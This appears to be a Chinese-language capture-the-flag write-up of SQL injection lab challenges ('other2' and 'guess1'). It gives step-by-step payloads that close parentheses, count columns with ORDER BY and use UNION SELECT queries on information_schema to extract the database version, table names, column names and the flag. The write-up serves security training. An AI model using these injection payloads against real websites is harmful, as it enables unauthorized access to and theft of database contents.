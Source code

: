 

<br>
### other2
由于白盒测试，能看见执行的SQL语句。根据sql语句，我们直接能判断是数字型的注入。只不过多了更多的括号

#### 确定注入点
原理相同，只需要用同等的右括号来完成就可以。
传入参数`?id=2-1)))) %23`，页面返回第一条数据。说明传入参数被当作SQL语句执行。那么确定注入点。

#### 得到数据流程
接下来就是一样的流程
```sql
得到列数
?id=1)))) ORDER BY 3 %23  # 页面正常，显示第一条数据
?id=1)))) ORDER BY 4 %23  # 页面报错，确定列数为3列

联合查询注入
?id=0)))) UNION SELECT 1,2,3 %23    # 页面中显示1，2，3的数据

查询当前数据库版本和数据库名
?id=0)))) UNION SELECT 1,version(),database() %23    # 页面回显数据

查询当前数据库下的所有表名
?id=0)))) UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli10010' %23

查询该表中所有的列名
?id=0)))) UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns where table_name='f10010lag' %23

查询实际数据
?id=0)))) UNION SELECT 1,2,group_concat(f10010lag) FROM f10010lag %23

```

<br>
<br>

## sqli-black




### guess1

#### 确定注入点
开始我们第一个，猜测别人的SQL语句怎么写的。直接开始测试
```sql
?id=2-1   #????一下就中奖了，页面回显ID为1的数据，说明语句被当作SQL语句执行
?id=3-2   # 在确认一下
```
好的，可以直接开始得到数据的流程了
